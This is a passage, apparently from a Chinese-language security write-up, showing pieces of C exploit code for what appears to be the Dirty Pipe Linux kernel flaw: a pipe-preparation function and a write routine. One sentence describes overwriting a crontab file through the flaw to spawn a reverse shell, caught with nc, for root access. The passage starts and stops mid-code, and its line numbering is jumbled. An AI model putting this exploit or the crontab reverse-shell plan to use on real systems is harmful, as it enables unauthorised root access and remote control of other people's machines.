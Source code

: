       131.        PIPE_BUF_FLAG_CAN_MERGE flag */
    
      132.     nbytes = write(p[1], data, data_size);
    
      133.     if (nbytes < 0) {
    
      134.         perror("write failed");
    
      135.         return EXIT_FAILURE;
    
      136.     }
    
      137.     if ((size_t)nbytes < data_size) {
    
      138.         fprintf(stderr, "short write\n");
    
      139.         return EXIT_FAILURE;
    
      140.     }
    
      141.     return EXIT_SUCCESS;
    
      142. }
    
    
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175315.png)

  * 通过漏洞写`crontab`计划任务文件，定时反弹一个shell，然后通过nc远程接收shell，从而实现提权。

    
          1. #define _GNU_SOURCE
    
      2. #include <unistd.h>
    
      3. #include <fcntl.h>
    
      4. #include <stdio.h>
    
      5. #include <stdlib.h>
    
      6. #include <string.h>
    
      7. #include <sys/stat.h>
    
      8. #include <sys/user.h>
    
      9.   10. #ifndef PAGE_SIZE
    
      11. #define PAGE_SIZE 4096
    
      12. #endif
    
      13.   14. /**
    
      15.  * Create a pipe where all "bufs" on the pipe_inode_info ring have the
    
      16.  * PIPE_BUF_FLAG_CAN_MERGE flag set.
    
      17.  */
    
      18. static void prepare_pipe(int p[2])
    
      19. {
    